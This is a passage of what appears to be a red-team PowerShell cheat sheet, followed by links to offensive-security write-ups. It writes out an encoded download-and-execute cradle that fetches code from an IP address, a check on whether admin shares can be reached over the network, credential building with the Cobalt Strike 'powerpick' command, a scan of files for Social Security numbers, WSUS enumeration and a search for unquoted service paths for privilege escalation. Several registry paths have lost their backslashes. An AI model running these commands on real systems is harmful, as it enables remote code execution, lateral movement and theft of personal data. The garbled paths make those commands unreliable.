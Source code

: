 Encode string

    echo "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" | iconv --to-code UTF-16LE | base64 -w 0

List recently modified files in path (U:)

    Get-Childitem u: -Recurse | where-object {!($_.psiscontainer)} | where { $_.LastWriteTime -gt $(Get-Date).AddDays(-1) } | foreach {"$($_.LastWriteTime) :: $($_.Fullname) " }

List Files

    Select-String -Path c:fso*.txt, c:fso*.log -pattern ed

List First 100 Files

    Get-ChildItem -Path XXX |Select -First 100 Fullname

List a Process's Loaded Modules (DLL)

    get-process -id 1234|select -expand modules

Remote Command Execution using MMC

    https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/

Get LocalAccountTokenFilterPolicy (Determine if you can authenticate to admin resources over the network, i.e. C$,ADMIN$)

    Get-ItemProperty HKLM:SOFTWAREMicrosoftWindowsCurrentVersionPoliciesSystem |Select LocalAccountTokenFilterPolicy |fl

Test User Credentials

    powerpick $password = ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential ("domainname", $password);

Search for SSN

https://technet.microsoft.com/en-us/library/2008.04.securitywatch.aspx

    $SSN_Regex = " [0-9]{3}[-| ][0-9]{2}[-| ][0-9]{4}" ; Get-ChildItem . -Recurse -exclude *.exe,*.dll| Select-String -Pattern $SSN_Regex | Select-String -Pattern $SSN_Regex| Select-Object Path,Filename,Matches |ft -auto|out-string -width 200; "[*] SSN Search Complete!"

Enumerate the use of the Windows Server Update Services (WSUS)

    Get-ItemProperty -Path Registry::"HKLMSOFTWAREPoliciesMicrosoftWindowsWindowsUpdate" |Select-Object -ExpandProperty WUServer

    Get-ItemProperty -Path Registry::"HKLMSOFTWAREPoliciesMicrosoftWindowsWindowsUpdate" |Select-Object -ExpandProperty WUStatusServer

    Get-ItemProperty -Path Registry::"HKLMSOFTWAREPoliciesMicrosoftWindowsWindowsUpdateAU" |Select-Object -ExpandProperty UseWUServer

    reg query HKEY_LOCAL_MACHINESOFTWAREPoliciesMicrosoftWindowsWindowsUpdate

   
Get unquoted service paths

    gwmi win32_service |Select pathname | Where {($_.pathname -ne $null)} | Where {-not $_.pathname.StartsWith("`"")} | Where {($_.pathname.Substring(0, $_.pathname.IndexOf(".") +4)) -match ".* .*"}


[1]: /threatexpress/img/pasties.png
[2]: https://www.twitter.com/joevest
[3]: https://www.twitter.com/andrewchiles
[4]: https://www.twitter.com/minis_io
[5]: https://canarytokens.org/generate#
[6]: http://blog.portswigger.net/2017/07/cracking-lens-targeting-https-hidden.html
[7]: https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6
[8]: http://www.exploit-monday.com/2013/04/PersistenceWithPowerShell.html
[9]: https://github.com/subTee/ApplicationWhitelistBypassTechniques/blob/master/TheList.txt
[10]: http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
[11]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf
[12]: https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf
[13]: https://gist.github.com/HarmJ0y/3328d954607d71362e3c
[14]: https://adsecurity.org/?p=2362
[15]: http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
[16]: https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond